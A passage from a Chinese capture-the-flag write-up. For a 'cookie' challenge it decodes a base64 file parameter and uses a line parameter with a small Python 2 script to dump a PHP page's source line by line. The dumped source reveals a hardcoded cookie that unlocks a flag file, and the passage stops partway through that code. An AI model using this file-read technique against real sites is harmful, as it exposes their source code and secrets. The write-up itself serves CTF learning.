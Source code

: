 注意`%`不要被URL编码，得到flag

## 曲奇饼

一看到这个URL

```
index.php?line=&file=a2V5LnR4dA==
```



file应该是读取文件的文件名经过base64加密，解密下为key.txt，印证猜想，那就直接读取`index.php`把，加密后访问什么都没有，又注意到`line`参数，应该是行数吧？测试下的确是，于是写个脚本down下源代码

```python
#!/usr/bin/env python
# encoding: utf-8

"""

@author: iSky0t
@contact: isky0toor@gmail.com
@time: 2017/10/8 10:20
"""
import urllib2

def func():
    pass


class Main():
    for i in range(1,50):
        url = "http://ctf1.shiyanbar.com/shian-quqi/index.php?line="+str(i)+"&file=aW5kZXgucGhw"
        req = urllib2.Request(url)
        f = urllib2.urlopen(req)
        print f.read()

if __name__ == '__main__':
    pass
```



```
<?php  


$file=base64_decode(isset($_GET['file'])?$_GET['file']:"");

$line=isset($_GET['line'])?intval($_GET['line']):0;

if($file=='') header("location:index.php?line=&file=a2V5LnR4dA==");

$file_list = array(

'0' =>'key.txt',

'1' =>'index.php',

);

 

if(isset($_COOKIE['key']) && $_COOKIE['key']=='li_lr_480'){

$file_list[2]='thisis_flag.php';

```